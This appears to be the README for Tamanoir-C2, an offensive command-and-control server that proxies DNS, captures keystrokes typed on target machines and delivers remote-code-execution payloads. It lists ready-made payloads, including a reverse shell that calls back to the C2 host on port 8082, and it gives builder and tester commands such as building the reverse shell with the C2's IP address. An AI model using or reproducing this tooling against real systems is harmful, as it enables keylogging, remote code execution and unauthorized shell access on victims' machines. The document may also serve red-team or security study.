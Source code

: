 # Tamanoir-C2 server

[Back to Readme](../../README.md)

Tamanoir-C2 (Command and Control) server's  purpose is multiple: 
- act as a dns proxy
- extract typed keystrokes from target
- transmit selected RCE( Remote Code Execution) payloads to target



- ⚠ make sure port 53 is available `sudo systemctl stop systemd-resolved` can help


## Architecture
It is composed of 3 servers:
| type | default port | goal|
|----------|----------|----------|
| DNS  | 53 | handle dns requests from targets and rce payloads transmission |
| TCP  | 8082 | handle remote shell sessions |
| GRPC  | 50051 | handle communication with tui clients |



## 🔥 Available Rce payloads
Tamanoir comes with ready-to-use payloads :


| name | description | comments | 
|----------|----------|----------|
| hello |  prints a cute tamanoir to tamanoir stdout  | hello-world payload, demonstrate how a big payload can be transmitted by chunks to target|
| xeyes | open `xeyes` program on target gui | demonstrate how to execute simple shellcode. Only works if target uses x11 |
| reverse-shell | open a tcp-shell communicating with tamanoir-c2 | needs to specify IP var when building (see below) 


### 📍 payloads location: ./assets/payloads


## 🔧 Builder
 
 `tamanoir-c2 rce build`

- will build and strip provided payloads

| name long| name short | description |  default|
|----------|----------|----------|----------|
| --target_arch| -t | x86_64 or aarch64  |  x86_64 |
| --crate_path | -c | path to payload crate (see ./assets/payloads) for examples | - |
| --engine | -e |cross build engine,if needed (docker or podman)  | docker |
| --build-vars | -b | key=value, space-separated env vars required for your payload, if needed  | - | 

- payload output: `~/.tamanoir/bins`
- ⚠ needs [cross](https://github.com/cross-rs/cross) for cross-compilation if target arch != current arch
- ⚠ max payload size (once compiled and stripped) = 4096 bytes

#### example: build reverse-shell 
`tamanoir-c2  rce  build  -c ./assets/payloads/reverse-shell  -b "IP=<tamanoir-c2-ip>" -t x86_64`
will compile `reverse-shell` payload:
- for x86_64 target arch 
- use cross to build it if current arch isn't x86_64
- will establish shell session with \<tamanoir-c2-ip>:8082



## Tester
 `tamanoir-c2 rce test -b <path-to-your-payload-binary>`
- test your payload (locally)
- ⚠ path needs to be absolute

## ⚠ Limitations
- Cross compilation is only available  for `aarch64` ->  `x86_64` 
- Rce payloads are for now only available for GNU toolchain





